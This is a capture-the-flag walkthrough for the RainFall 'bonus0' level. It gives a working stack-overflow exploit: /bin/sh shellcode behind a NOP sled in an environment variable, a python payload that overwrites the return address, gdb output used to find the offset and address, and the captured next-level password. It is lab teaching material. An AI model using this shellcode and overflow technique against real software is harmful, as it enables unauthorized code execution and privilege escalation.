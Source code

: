 # Walkthrough

## Solution
```
export SHELLCODE=`python -c "print('\x90' * 100 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')"`
```
```
(python -c "print 'A' * 4095 + '\n' + 'A' * 9 + '\x7c\xf8\xff\xbf' + 'A' * 7"; cat -) | ./bonus0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA|���AAAAAAA��� AAAAAAAAA|���AAAAAAA���
pwd
/home/user/bonus0
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

## Explanation

### Execution

```
bonus0@RainFall:~$ ./bonus0 
 - 
hello
 - 
you
hello you
bonus0@RainFall:~$ ./bonus0
 - 
he llo
 - 
you
he llo you
```
-> wait for 2 inputs and concatenate them


### Disassembly

```
info var
data_start

info function
0x080484b4  p
0x0804851e  pp
0x080485a4  main
```

You can view the commented asm code [here](Ressources/assembly.asm)  

Buffer addresses:  
buf = 0xbffff6f6  
buf1 = 0xbffff6a8  
buf2 = 0xbffff6bc  


### Execution

```
(gdb) run
Starting program: /home/user/bonus0/bonus0 
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
 - 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5AaAa0Aa1Aa2Aa3Aa4Aa5Aa��� Aa0Aa1Aa2Aa3Aa4Aa5Aa���

Program received signal SIGSEGV, Segmentation fault.
0x41336141 in ?? ()
```
-> the 2nd input cause a segfault - **Offset is 9**
The buffer is only 20 chars, so we only have 11 bytes available to inject a shellcode, which is not enough.

Let's save our shellcode in an env variable:  
*shellcode:*  
```
'\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh' - 45 chars
```  

The actual address of the shellcode must be known ahead of time, which can be difficult to know in a dynamically changing stack.
By creating a large array (or sled) of these NOP instructions and placing it before the shellcode, if the EIP returns to any address found in the NOP sled, the EIP will increment while executing each NOP instruction, one at a time, until it finally reaches the shellcode. This means that as long as the return address is overwritten with any address found in the NOP sled, the EIP will slide down the sled to the shellcode, which will execute properly.  

**Shellcode env:  **  
```
export SHELLCODE=`python -c "print('\x90' * 100 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')"`
```  

#### Find the Shellcode env variable address

```
$> gdb bonus0
(gdb) break main
Breakpoint 1 at 0x80485a7
(gdb) run
Starting program: /home/user/bonus0/bonus0 

Breakpoint 1, 0x080485a7 in main ()
(gdb) x/s *((char **)environ)
0xbffff86c:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\353\037^\211v\b1\300\210F\a\211F\f\260\v\211\363\215N\b\215V\f̀1ۉ\330@̀\350\334\377\377\377/bin/sh"
```  

the beginning of our NOP + shellcode is at address 0xbffff86c
-> we have to choose an address that contains a NOP (\x90), so that it will sled into the beginning of our shellcode and execute it

```
(gdb) x/12wx 0xbffff86c
0xbffff86c:	0x4c454853	0x444f434c	0x90903d45	0x90909090
0xbffff87c:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff88c:	0x90909090	0x90909090	0x90909090	0x90909090
```

-> let's pick 0xbffff87c

> (python -c "print 'A' * 4095 + '\n' + 'A' * 9 + '\x7c\xf8\xff\xbf' + 'A' * 7"; cat -) | ./bonus0

% 4095 + \n = 4096, to fill the buf3, \n because of the strchr(buf3, '\n')
% 'A' * 9 because the offset of the 2nd input that causes the segfault is 9
% address of the shellcode (4 bytes)
% 'A' * 7, so that we have 20 bytes for buf2 (9 + 4 + 7).


% source:
% https://bista.sites.dmi.unipg.it/didattica/sicurezza-pg/buffer-overrun/hacking-book/0x270-stackoverflow.html
% x/s *((char **)environ) to get address of env variables